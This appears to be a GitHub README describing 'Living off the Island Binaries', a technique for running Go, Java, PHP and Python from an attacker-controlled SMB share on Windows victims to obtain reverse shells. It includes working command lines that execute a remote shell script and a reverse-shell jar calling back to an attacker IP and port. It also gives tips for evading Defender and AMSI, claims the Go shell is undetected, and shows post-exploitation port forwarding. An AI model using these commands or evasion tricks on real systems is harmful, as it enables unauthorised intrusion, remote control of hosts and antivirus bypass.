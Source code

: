# LOI Bins (Living off the Island Binaries) - A remote SMB Island in the middle of nowhere
## Abusing Remote Windows SMB Shares to Get Reverse Shells In ~~Any~~ Some Programming Languages

This is my collection of ways to Execute Code in a number of different Programming Languages on a Victim Windows Host which doesnt have the environment installed.

This is nothing ground breaking, but I havent seen this technique documented anywhere. As long as you have the right environment installed on your Attacker Controlled Windows Device you can essentially run any code you wish in memory. 

More will be added as and when I have the time to research it.

Programming Languages Tested With

1. [Go](#Go)
2. [Java](#example-with-java)
3. [PHP](#example-with-php)
4. Python - See here https://github.com/deeexcee-io/Eazee-As-Py

Post exploitation Techniques

1. [Python Port Forward](#port-forward-example)
2. [Python Interpreter in Memory](#python-interpreter-example)

## Set the Scene

Lets say you have command execution on a host, your going to want to run a command to return a reverse shell. I would normally for something like powershell -c "......." 

Now with this aproach we have AMSI and Defender/AV. Assuming our victim can reach out over SMB, it is possible to copy files and execute or just execute an .exe straight from the share.

This approach does that but what we can do is call the .exe of our programming language of choice and also pass it a script, both of which are stored on our attacker controlled SMB share. Defender still scans the scripts but by utilising **Go, Java, PHP etc** we have more flexibility to bypass static signatures.

You can also utilise these programming languages to carry out post exploitation in weird and wonderful ways. Hell, just call python.exe from the rmeote share and drop straight into the [Interpreter](#python-interpreter-example). 


## <a name="Go"></a>The process is extremely simple - Example with Go

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python Java and Go are the only ones I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Java/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)

**NBNB - shell.go is FUD @ 28/04/2023**

![image](https://user-images.githubusercontent.com/130473605/235163241-a43353c0-f538-4b6b-ad3e-4943631242ec.png)


## Defender

According to the Windows Documentation, Defender wont scan User-Level Mapped Shares i.e if you use `net use g: \\192.168.59.60\Go /USER:user Password!` it wont scan and therefore wont attempt to delete the files on the remote share. It can however pick a script up when attempting to execute. Network Shares are scanned. Just something to keep in mind. https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-advanced-scan-types-microsoft-defender-antivirus?view=o365-worldwide

![image](https://user-images.githubusercontent.com/130473605/235164338-683ff6a4-e68d-4b53-9d40-d1a274310c1f.png)

## <a name="Java"></a>Example with Java

1. Download and Install JRE 
2. Share /bin folder - C:\Program Files\Java\jre-1.8\bin - I renamed my bin folder JRE when sharing in Advanced Sharing
3. Download Reverse-Shell.jar and place in /bin folder - Stolen from https://github.com/ivan-sincek/java-reverse-tcp/blob/main/jar/Reverse_Shell.jar
4. Execute java and jar file whilst bypassing Defender `\\192.168.59.130\JRE\bin\java -jar \\192.168.59.130\JRE\bin\Reverse_Shell.jar 10.201.20.61 8445`

![image](https://user-images.githubusercontent.com/130473605/235175752-b3b26e3d-5f12-4052-a124-a498cc28a8c8.png)

5. Enjoy a Java Reverse Shell from a Windows Host that doesnt have Java Installed

![image](https://user-images.githubusercontent.com/130473605/235176177-20c77e58-0a72-49e4-8036-317389f6591d.png)

## <a name="PHP"></a>Example with PHP

Same as above. Install PHP on Windows and call the php.exe application and reverse shell script.

![image](https://user-images.githubusercontent.com/130473605/235460758-c8660755-0280-4eac-a53a-4a73e0d0dfb3.png)

Catch Shell in Kali

![image](https://user-images.githubusercontent.com/130473605/235460817-62909b39-33fc-4e5c-9de9-17e057bec08a.png)


## <a name="PF"></a>Port Forward Example

## Post Exploitation

In this example I have a HTTP Server listening on localhost (My Nessus Server in this case port 8834)

![image](https://user-images.githubusercontent.com/130473605/235459846-d72eb2f6-b35a-49f7-9ea4-faf5e8ef3a03.png)


Point to remote share and port forward script telling the host to listen on port 22222 and forward any traffic to 127.0.0.1:8834 (nessus)

![image](https://user-images.githubusercontent.com/130473605/235459541-ddb4806d-4ab0-41e4-8886-63ec8c2f2791.png)

You can now access the Internal HTTP Server on your attacking machine

![image](https://user-images.githubusercontent.com/130473605/235460235-828b6079-1920-4907-a91c-6d8461a0b86d.png)

## <a name="PF"></a>Python Interpreter Example

Its as simple as pointing to a remote share which then loads python into memory. 

![image](https://user-images.githubusercontent.com/130473605/235461798-2cc3bada-d39e-48f7-82d1-d6a207d600ae.png)

![image](https://user-images.githubusercontent.com/130473605/235464000-614a31d4-8847-413f-8a21-15826483bbbf.png)

